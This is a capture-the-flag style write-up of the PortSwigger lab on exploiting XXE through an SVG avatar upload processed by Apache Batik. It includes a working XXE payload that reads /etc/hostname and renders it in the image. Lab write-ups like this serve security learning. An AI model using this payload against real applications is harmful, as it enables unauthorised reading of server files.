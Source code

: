 ```yaml
---
title: 'Lab: Exploiting XXE via image file upload'
tags: [Portswigger Web Security Academy, Web]

category: "Security/Practice/Portswigger Web Security Academy/XXE"
---
```


# Lab: Exploiting XXE via image file upload
###### tags: `Portswigger Web Security Academy` `Web`
* Description: This lab lets users attach avatars to comments and uses the Apache Batik library to process avatar image files.
* Goal: To solve the lab, upload an image that displays the contents of the `/etc/hostname` file after processing. Then use the "Submit solution" button to submit the value of the server hostname.

## Recon
In this lab, we can upload an exploited file which contained malicious xml data. Then we can fetch some sensitive information.

## Exp - Upload Exploited File as Avatar
1. Create an exploit text file
We can create a text file contained the payload below
The exploited payload in `.svg` files:
```xml!
<?xml version="1.0" standalone="yes"?><!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/hostname" > ]><svg width="128px" height="128px" xmlns ="http://www.w3.org/2000/svg" xmlns:xlink ="http://www.w3.org/1999/xlink" version="1.1"><text fontsize="16" x="0" y="16">&xxe;</text></svg>
```
2. Transfer to `svg` file and upload it
After transfering to `.svg` file, we can choose arbitrary post and leave a comment below
![](https://i.imgur.com/gQt4HCF.png)

3. Check your avatar
Then you get back to post page and verified your avatar photo should contain a string which is your flag(sensitive data) that you must submit.
:::spoiler Success Screenshot
![](https://i.imgur.com/W3Jg2Xs.png)
:::
